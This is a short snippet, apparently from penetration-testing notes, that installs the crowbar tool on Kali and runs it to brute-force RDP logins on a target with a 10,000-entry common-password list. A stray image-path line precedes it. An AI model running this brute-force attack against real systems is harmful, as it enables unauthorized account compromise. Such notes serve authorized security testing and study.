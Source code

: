 ```bash - kali
sudo apt install crowbar
```

```bash - kali
crowbar -b rdp -s $TARGET/32 -u $USER -C /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -n 1
```